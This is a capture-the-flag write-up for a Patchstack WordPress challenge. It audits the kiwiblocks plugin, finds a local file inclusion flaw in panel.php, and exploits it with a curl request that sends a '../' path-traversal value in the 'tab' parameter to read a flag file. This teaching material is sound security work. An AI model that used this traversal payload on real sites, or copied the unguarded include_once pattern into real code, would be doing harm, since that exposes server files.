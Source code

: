 # A Nice Block

<details><summary><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

- 20 solves / 100 points
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

I like the new Gutemberg editor, so I just installed a plugin with beautiful blocks addons. That's a great plugin that perfectly matches my design needs, I don't think it could cause a security issue, right?

This is a whitebox challenge, no need to bruteforce anything (login, endpoint, etc).

![](https://github.com/siunam321/CTF-Writeups/blob/main/Patchstack-Alliance-CTF-S02E01/images/Pasted%20image%2020250224190052.png)

## Enumeration

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/Patchstack-Alliance-CTF-S02E01/A-Nice-Block/attachment.zip):**
```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/A-Nice-Block)-[2025.02.23|16:11:08(HKT)]
└> file attachment.zip                 
attachment.zip: Zip archive data, at least v1.0 to extract, compression method=store
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/A-Nice-Block)-[2025.02.23|16:11:09(HKT)]
└> unzip attachment.zip 
Archive:  attachment.zip
   creating: server-given/
  inflating: server-given/deploy.sh  
  inflating: server-given/Makefile   
   creating: server-given/challenge-custom/
 extracting: server-given/challenge-custom/flag.txt  
[...]
  inflating: server-given/Dockerfile  
  inflating: server-given/.env       
  inflating: server-given/docker-compose.yml  
```

Throughout this CTF, it's recommended that in all challenges we first look at what plugins/themes are installed. To automate this process, the challenge authors used [GNU make](https://www.gnu.org/software/make/) and [WP-CLI](https://wp-cli.org/) to set up the WordPress site. The `Makefile` located in path `server-given/docker/wordpress/toolbox/Makefile`:

```bash
    [...]
    $(WP_CLI) plugin activate kiwiblocks
```

In here, this WordPress site has installed a plugin called `kiwiblocks`, which is located in path `server-given/challenge-custom/kiwiblocks`.

To debug this plugin more effectively, I'll use a [Docker configuration from Wordfence Discord written by Ramuel](https://discord.com/channels/1197901373581303849/1199013923173712023/1199041121322537115) to debug the plugin with [Xdebug](https://xdebug.org/). 

After building and starting the Docker containers, we can `zip` the plugin and upload it to our WordPress site:

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/A-Nice-Block/server-given/challenge-custom)-[2025.02.23|16:55:37(HKT)]
└> cd server-given/challenge-custom; zip -r kiwiblocks.zip kiwiblocks
  adding: kiwiblocks/ (stored 0%)
  adding: kiwiblocks/src/ (stored 0%)
  adding: kiwiblocks/src/global.js (deflated 70%)
  [...]
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Patchstack-Alliance-CTF-S02E01/images/Pasted%20image%2020250224184255.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Patchstack-Alliance-CTF-S02E01/images/Pasted%20image%2020250224184322.png)

After activating the plugin, we'll be redirected to `/wp-admin/admin.php?page=kiwiblocks`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Patchstack-Alliance-CTF-S02E01/images/Pasted%20image%2020250224184429.png)

As the challenge's description says, this plugin has some blocks addons.

Now we can read this plugin's source code!

When I audit a plugin, I always find all the registered AJAX actions and REST API's routes. For instance, the following AJAX action `kiwiblocks_bordered`:

```php
class Kiwiblocks_Bordered extends Kiwiblocks_Block{
    [...]
    function __construct(){
        $this->name = 'bordered';
        [...]
        add_action( 'wp_ajax_kiwiblocks_' . $this->name, array( $this, 'ajaxRender' ));
        add_action( 'wp_ajax_nopriv_kiwiblocks_' . $this->name, array( $this, 'ajaxRender' ));
    }
}
```

However, none of those AJAX actions and API routes are useful to us.

Another method that I hunt for vulnerabilities is via the "[sources and sinks model](https://www.youtube.com/watch?v=ZaOtY4i5w_U)", where **sources are user inputs**, and **sinks are dangerous functions**.

After a few searches, we can see that one of many LFI (Local File Inclusion) sinks, **`include_once`**, is used in the following:

`wp-content/plugins/kiwiblocks/src/admin-panel/views/panel.php`:

```php
<?php
    [...]
    $tab = isset($_GET['tab']) ? $_GET['tab'] : 'general.php';
    try
    {
        @include_once __DIR__ . '/tabs/' . $tab;
    }
    catch(Throwable $e)
    {
        [...]
    }
```

As you can see, the source, **GET parameter `tab`**, is flow to the sink.

Also, there is no PHP code that **disallow us from directly accessing this PHP script** like the following:

```php
// Exit if accessed directly.
if ( ! defined( 'ABSPATH' ) ) {
    exit;
}
```

With that said, we found a **LFI vulnerability at path `wp-content/plugins/kiwiblocks/src/admin-panel/views/panel.php`**!

## Exploitation

Armed with the above information, we can get the flag via sending the following GET request:

```http
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/A-Nice-Block)-[2025.02.24|18:58:45(HKT)]
└> curl --get http://52.77.81.199:9100/wp-content/plugins/kiwiblocks/src/admin-panel/views/panel.php --data 'tab=../../../../../../../../../../../../flag.txt' 
<h1 class="kiwi_title">Kiwiblocks</h1>

<div class="kiwi_panel">

    CTF{TABBING_THE_TAB_0z933}
</div>
```

- **Flag: `CTF{TABBING_THE_TAB_0z933}`**

## Conclusion

What we've learned:

1. Local File Inclusion (LFI)